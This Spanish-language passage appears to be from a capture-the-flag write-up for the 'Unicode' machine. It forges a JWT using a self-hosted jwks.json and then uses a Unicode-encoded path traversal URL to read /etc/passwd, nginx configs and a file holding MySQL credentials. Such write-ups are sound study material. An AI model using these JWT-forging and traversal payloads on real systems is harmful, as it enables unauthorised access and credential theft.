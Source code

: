```python
#!/usr/bin/python3

import jwkest
from Crypto.PublicKey import RSA

fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()


print("n:", jwkest.long_to_base64(key.n))
print("e:", jwkest.long_to_base64(key.e))
```
* n: qV5Smp4lxwvgY8POIWXWpAsDDBatymCkAIxBS4sgsuk49Lb29zNiLififZz4v6z9VOywTxJBHi6a0t06QyeyfPg0roa8t-JqlDuWjAjF6F80nB4yBh-u6u8ggTRSR-cpLrr3d0QbNHTOQB2zrpCXuUW3uY-BUNk2QyPPCjzyZdO1RGZBEXtTo6CTZecEqFd0Li0cK9NywPzSqUuzzHe9pzmDMQONUezkcxTtN9tbcOiHMrsUTpwxzNeyGu9Mtt3gI2Hle6gYNFWdxsY7S642KYgRAu6OVi5nwwi46n2J41n7fnskk6Hzpr2o-jg93zMZfit1JV2rRLG__p-k1EldaQ
* e: AQAB

Cuando ya hayamos sustituido los parámetros `n` y `e` en el archivo jwks.json y tengamos preparado el token malicioso nos levantaremos un servidor web para que cuando se vaya a validar el token pueda apuntar al archivo que tenemos en local.

```plaintext
❯ python -m http.server 8080
```

Editamos la cookie con el token JWT malicioso y recargamos la página.

![Dashboard]({{ 'assets/img/commons/unicode/dashboard.png' | relative_url }}){: .center-image }
_Panel de Administración_

Analizando el panel de adminitración podemos ver algunas cosas interesantes como la url del apartado `Current month` y `Last quarter`. A simple vista se hace parecido a un LFI (Local File Inclusion), sin embargo, no conseguimos acceder a ningun archivo, tendremos que tirar de algún bypass para poder listar archivos. Buscando encontré la siguiente [página](https://jlajara.gitlab.io/web/2020/02/19/Bypass_WAF_Unicode.html).

Entre todos los bypass que he visto solo he encontrado uno que me haya servido, es el siguiente:

```plaintext
http://hackmedia.htb/display/?page=%E2%80%A4%E2%80%A4%EF%BC%8F%E2%80%A4%E2%80%A4%EF%BC%8F%E2%80%A4%E2%80%A4%EF%BC%8F%E2%80%A4%E2%80%A4%EF%BC%8Fetc%EF%BC%8Fpasswd
```

Ya tenemos una forma potencial de enumerar archivos, como se esta utilizando `nginx` como servidor web podríamos empezar a enumerar los archivos de configuración del servidor. Empezaremos con el fichero `/etc/nginx/nginx.conf`.

El fichero llama a otros recursos, empezaremos a enumerar lo que hay dentro de estas carpetas. Encontramos un fichero muy interesante ubicado en `/etc/nginx/sites-enabled/default`, este fichero nos indica la existencia de un fichero con credenciales, las credenciales son guardadas en el fichero `/home/code/coder/db.yaml`. Accedemos al archivo y veremos las credenciales.

```plaintext
mysql_host: "localhost"
mysql_user: "code"
mysql_password: "B3stC0d3r2021@@!"
mysql_db: "user"
```
